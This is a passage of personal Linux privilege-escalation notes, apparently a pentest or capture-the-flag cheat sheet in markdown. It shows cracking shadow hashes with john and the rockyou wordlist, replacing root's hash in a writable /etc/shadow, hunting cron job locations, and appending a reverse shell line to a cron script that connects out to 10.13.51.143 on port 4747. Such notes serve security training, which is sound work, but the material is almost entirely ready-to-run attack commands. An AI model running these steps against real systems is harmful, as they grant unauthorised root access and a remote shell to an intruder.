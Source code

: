 ``` bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt
```



</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Writeable shadow

</div>


Generate a new password hash with a password of your choice:
```shell
mkpasswd -m sha-512 newpasswordhere
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

	su root

</div></div>

## Cron jobs exploiting
Look for jobs, and try to exploit them
System crontab
```shell
/etc/crontab
/etc/cron.d
/etc/rc.d/
/etc/init.d
```
Users crontabs
```shell
/var/spool/cron
```
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Cron exploit - File permissions

</div>


check permissions of the scripts
and add a basic bash
```shell
echo 'bash -i>&/dev/tcp/10.13.51.143/4747 0>&1' >> /script.sh
```
